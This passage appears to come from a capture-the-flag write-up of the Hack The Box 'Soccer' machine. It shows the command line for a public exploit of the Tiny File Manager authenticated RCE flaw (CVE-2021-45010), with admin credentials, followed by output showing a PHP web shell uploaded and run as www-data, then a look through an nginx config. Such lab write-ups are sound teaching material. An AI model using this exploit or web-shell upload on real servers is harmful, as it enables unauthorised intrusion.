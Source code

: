```

host = f"{host}/tiny/uploads"

```
change in line 77

Now run the program 
`$ python3 tiny_file_manager_exploit.py http://soccer.htb/tiny/tinyfilemanager.php admin admin@123`
```
CVE-2021-45010: Tiny File Manager <= 2.4.3 Authenticated RCE  Exploit.

Vulnerability discovered by Febin

Exploit Author: FEBIN

[+] Leak in the webroot direcory path to upload shell.
[+] WEBROOT found:  /var/www/html/tiny/uploads
[+] Trying to upload pwn_618482282317053696.php to /var/www/html/tiny/uploads directory...
{"status":"success","info":"file upload successful"}
[+] Got Success response. Files seems to be uploaded successfully.
[+] Try to access the shell at http://soccer.htb/tiny/uploads/pwn_618482282317053696.php
[+]Shell Found http://soccer.htb/tiny/uploads/pwn_618482282317053696.php.

'exit' to quit from shell.

sh31l$> whoami
www-data

sh31l$> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Post Exploitation

After in the shell you don't get much at all plus you need to manually enumerate because scripts and some command aren't working there. So after enumerating a lot you start checking config file to maybe find any sort of credentials or things from that sort, so I remembered that the site runs on Nginx so I started looking at nginx config file, eventually I found the file `/etc/nginx/sites-enabled/soc-player.htb` printed it and found:

```

server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}

```
as you can see there is a server_name which so that means there is another server running on `http://soc-player.soccer.htb` so lets enter the site, don't forget to add it to the `/etc/hosts` file.